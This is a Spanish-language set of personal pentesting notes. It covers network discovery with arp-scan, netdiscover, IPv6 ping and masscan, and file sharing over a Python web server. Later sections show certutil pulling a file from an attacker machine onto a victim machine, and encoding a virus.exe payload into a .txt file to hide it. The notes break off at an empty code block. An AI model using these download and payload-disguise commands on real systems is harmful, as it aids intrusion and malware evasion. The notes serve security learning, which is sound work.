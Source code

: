 ## DETECTAR EQUIPOS CONECTADOS A MI RED CON ARP-SCAN
Para ello tenemos que ejecutar el siguiente comando pasándole la interfaz de red que estemos utilizando:
![[Pasted image 20221230095219.png]]
Y por ejemplo si la interfaz de red es otra, la tendremos que seleccionar (como en este caso que estoy utilizando un portátil):
![[Pasted image 20221230095402.png]]
## DETECTAR EQUIPOS CONECTADOS A MI RED CON NETDISCOVER
También podemos hacer esto mismo pero con netdiscover:
```bash
netdiscover -i eth0 -r 192.168.0.0/24
```
![[Pasted image 20230726112842.png]]
## DETECTAR LAS IPV6 DE LOS EQUIPOS CONECTADOS A MI RED
Para poder encontrar las direcciones IPv6 de los equipos que estén dentro de mi red, utilizo el siguiente comando:
```bash
ping6 -c2 -n -I eth0 ff02::1
```
Y esto me devuelve las IPv6 de los equipos de mi red privada:
![[Pasted image 20240107201848.png]]
## DETECTAR PUERTOS ABIERTOS DE TODOS LOS HOSTS DENTRO DE MI RED CON MASSCAN
Podemos utilizar esta herramienta de la siguiente forma y me detecta todos los puertos 445 de todos los equipos conectados a mi rando de red:
![[Pasted image 20230414125831.png]]
También podemos hacerlo como /16 por si queremos ampliar la búsqueda de más equipos que se encuentren en otros rangos de la red, por ejemplo si hay un host que sea 192.168.0.20.44:
![[Pasted image 20230414125924.png]]
## COMPARTIR ARCHIVOS POR SERVIDOR WEB DE PYTHON
Para ello nos ubicamos dentro del directorio que queramos compartir y ejecutamos lo siguiente:
![[Pasted image 20221217112301.png]]
Ahora si hacemos un localhost o introducimos la IP que nos dicen, aparecerá lo siguiente:
![[Pasted image 20221217112310.png]]
## COMPARTIR ARCHIVOS CON CERTUTIL
También podemos compartir archivos por la red usando certutil, de tal forma que desde la máquina atacante podemos levantar un servidor http:
![[Pasted image 20231202124800.png]]
Y para recibir el archivo podemos utilizar certutil desde la máquina víctima:
```python
certutil -split -urlcache -f http://192.168.0.32/test.txt
```
![[Pasted image 20231202124834.png]]
## ESCONDER VIRUS CON CERTUTIL
Podemos usar certutil para esconder un payload.exe en otro tipo de archivo como un .txt:
```bash
certutil -encode .\virus.exe camuflado.txt
```
![[Pasted image 20240524134810.png]]
Y ahora podemos volver a convertirlo al .exe:
```bash
```